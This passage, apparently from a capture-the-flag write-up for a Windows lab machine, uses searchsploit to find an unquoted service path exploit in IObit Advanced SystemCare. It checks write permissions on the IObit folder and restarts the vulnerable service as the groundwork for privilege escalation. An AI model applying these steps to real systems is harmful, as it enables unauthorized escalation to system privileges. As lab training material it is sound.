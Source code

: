 Search public exploit for `IObit` with searchsploit.

```
┌──(Hades㉿10.11.32.198)-[1.8:26.8]~
└─$ searchsploit IObit
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
IObit Advanced SystemCare 10.0.2 - Unquoted Service Path Pri | windows/local/40577.txt
<snip>
------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Based on exploit `windows/local/40577.txt` and folder IObit with permission `STEELMOUNTAIN\bill Allow  Write, Rea...`, I can go to system privilege by create file name to break space when IObit application start.

```
PS C:\Program Files (x86)> dir IObit
<snip>                                                                    
d----         4/11/2021   5:43 PM            Advanced SystemCare                                                       
d----         9/26/2019  10:35 PM            IObit Uninstaller                                                         
d----         9/26/2019   8:18 AM            LiveUpdate
```

Checking service running in the system

```
PS C:\Program Files (x86)> get-service

Status   Name               DisplayName                           
------   ----               -----------                           
Running  AdvancedSystemC... Advanced SystemCare Service 9
<snip>
```

Testing restart service `Advanced SystemCare Service 9`

```
PS C:\> cmd /c sc stop AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 4  RUNNING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
PS C:\> cmd /c sc start AdvancedSystemCareService9

SERVICE_NAME: AdvancedSystemCareService9 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 2  START_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2272
        FLAGS              :
```
